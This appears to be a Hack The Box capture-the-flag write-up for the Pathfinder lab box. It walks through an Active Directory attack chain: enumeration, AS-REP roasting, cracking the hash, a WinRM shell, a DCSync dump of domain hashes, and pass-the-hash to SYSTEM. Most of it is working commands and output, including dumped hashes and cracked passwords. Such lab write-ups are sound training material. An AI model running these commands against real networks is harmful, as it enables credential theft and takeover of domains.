 # Hack The Box | Pathfinder
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin with an nmap scan on the target.  
**Target:** 10.10.10.30  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ nmap -sC -sV 10.10.10.30           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 14:27 EST
Nmap scan report for 10.10.10.30
Host is up (0.026s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-01-11 03:36:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h08m30s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-01-11T03:36:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.27 seconds
~~~
### Open Ports/Services
88/tcp - Kerberos  
389/tcp - LDAP  
5985/tcp - WinRM  
Target looks like a domain controller.  
### Active Directory
Using the credentials I obtained from a previously compromised box (sandra / Password1234!), I can attempt to enumerate Active Directory. I can achieve this with **BloodHound** - using the Python ingester first to get data.    
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ bloodhound-python -d megacorp.local -u sandra -p Password1234! -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
INFO: Found AD domain: megacorp.local
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 5 users
INFO: Connecting to GC LDAP server: pathfinder.megacorp.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Pathfinder.MEGACORP.LOCAL
INFO: Done in 00M 06S
~~~
### BloodHound
Now with the data I gathered with the python ingester, I can now start the Neo4j DB and login to bloodhound to access the data.  
![bloodhound login](screenshots/bh_login.png)  
I can drag and drop the .json files created earlier from the ingester. Once loaded, I can run a query from the top left menu bar. My selected query is "Find Principals with DCSync Rights".  
![bh query](screenshots/bh.png)  
Here I can see that svc_bes has GetChangesAll privs to the domain. Meaning the account has the ability to request replication data from the DC, gaining sensitive info such as user hashes.  
## Lateral Movement
### Kerberos
It's worth checking out if Kerberos pre-auth is disabled on this account, making it vulnerable to ASREPRoasting. Using Impacket's GetNPUsers I can check.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:765efc769decb678560b0994d9761d39$5c42a78adf24dcb876c4861fd17045c7d6cc4e1be19c17ab18c6ba396d381cf52242806db734168cc8fbbd7234bccb1cb7ed3096a46995e3fdd90448dcb342d7b8f92f534aeba85da1628649f7abadc8f5245d9a2af89f82b9f7e5c2b1d099839f1e7fee743442ee62959088ab56dcb598e5d2055a560d24463bbad8224542e6eb6d7927d96527008aa75166b2d48a7651c8867e303b8d6a801aaf1c18bcdc55eebf7456606e06fe3441b6d73e4d31538ac00de956af6a3db8267ee928fe43df7e1f1a11210b2298f68775cf89df6e2f27743aa9ad5ff366435c4dcebbfc84927a06c5602e4145e7e72dfc73068178a9
~~~
I obtain the TGT ticket for svc_bes, I'll save it as a file named hash.  
### John
Using John in conjunction with rockyou.txt, I can obtain the plaintext password from the hash.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ john hash -wordlist=/usr/share/wordlists/rockyou.txt                             1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:14 DONE (2021-01-10 15:39) 0.06993g/s 741469p/s 741469c/s 741469C/s Sherbear94..Sheepy04
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~
Success.
#### Found Credentials
Username: svc_bes  
Password: Sheffield19  
### WinRM
Using the creds I just found, I can use evil-winrm to access the server. 
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_bes\Documents> 
~~~
From here I can immediately capture the user.txt flag in C:\Users\svc_bes\Desktop.  
## PrivEsc
### GetChangesAll
Now I can use Impacket's secretsdump.py to leverage the GetChangesAll permission and perform a DCSync attack to dump the NTLM hashes of all domain users.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ secretsdump.py -dc-ip 10.10.10.30 megacorp.local/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:8020b53ed08719bdcbce82d03864e3b0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:646b9ba65e4a9e67b101d5560dc0edd65c21055d9fa1e1ead744673ce308e71a
PATHFINDER$:aes128-cts-hmac-sha1-96:157aec24982d4d84685b26d9d6a7f45b
PATHFINDER$:des-cbc-md5:0d37bfbcb5014f89
[*] Cleaning up... 
~~~
### psexec.py
With Impacket's psexec.py I am able to use the admin's NTLM hash in a PTH attack to gain elevated access to the system.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ python3 ~/scripts/psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file TruBYTvA.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service GTsf on 10.10.10.30.....
[*] Starting service GTsf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
~~~
We are now SYSTEM and can capture the root.txt flag in C:\Users\Administrator\Desktop  
##### user.txt
Located in C:\Users\svc_bes\Desktop.  
**b05fb166688a8603d970c6d033f637f1**  
##### root.txt
Located in C:\Users\Administrator\Desktop.  
**ee613b2d048303e5fd4ac6647d944645**  
